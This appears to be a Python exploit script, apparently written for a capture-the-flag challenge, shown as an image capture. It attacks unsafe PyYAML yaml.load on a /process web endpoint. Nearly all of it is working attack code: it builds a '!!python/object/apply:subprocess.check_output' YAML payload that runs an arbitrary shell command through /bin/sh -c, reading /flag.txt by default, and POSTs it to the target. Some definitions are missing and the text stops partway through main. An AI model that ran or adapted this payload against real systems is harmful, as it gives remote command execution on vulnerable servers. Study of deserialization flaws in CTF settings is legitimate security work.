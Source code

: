 ```py


def make_payload_for_cmd(cmd_str):
   """
   Build a payload that calls subprocess.check_output.
   If cmd_str contains spaces, send it as a single string to /bin/sh -c so shell features work.
   """
   # prefer to call bash -c or sh -c to allow complex commands
   # produce: !!python/object/apply:subprocess.check_output [["/bin/sh", "-c", "cat /flag.txt"]]
   prog = "/bin/sh"
   args = '"-c", ' + repr(cmd_str)  # repr will quote correctly
   return PAYLOAD_TEMPLATE_CHECK_OUTPUT_ARGS.format(prog=prog, args=args)


def post_payload(url, payload, timeout=10):
   data = {"yaml_content": payload}
   try:
       r = requests.post(url, data=data, timeout=timeout)
   except Exception as e:
       print(f"[!] Request failed: {e}", file=sys.stderr)
       return None
   return r


def main():
   p = argparse.ArgumentParser(description="Exploit unsafe PyYAML yaml.load via /process endpoint")
   p.add_argument("--url", "-u", default=DEFAULT_URL, help="Full URL to /process endpoint (default: %(default)s)")
   p.add_argument("--flag", "-f", default=DEFAULT_FLAG, help="Flag path to try (default: %(default)s)")
   p.add_argument("--cmd", "-c", help="Custom command to run instead of cat <flag>")
   p.add_argument("--raw", action="store_true", help="Send a raw payload from stdin (reads payload from piped stdin)")
   args = p.parse_args()


   if args.raw:
       print("[*] Reading raw payload from stdin... (end with EOF / Ctrl-D)")
       raw = sys.stdin.read()
       payload = raw
   else:
       if args.cmd:
           cmd = args.cmd
       else:
           cmd = f"cat {args.flag}"
       payload = make_payload_for_cmd(cmd)


   print("[*] URL:", args.url)
   print("[*] Payload to send:")
   print("-----")
   print(payload)
   print("-----")


   r = post_payload(args.url, payload)
   if r is None:
       print("[!] No response.")
       return


   print(f"[*] HTTP {r.status_code}\n")
   # Print full response text so you can see YAML dump, HTML, etc.
```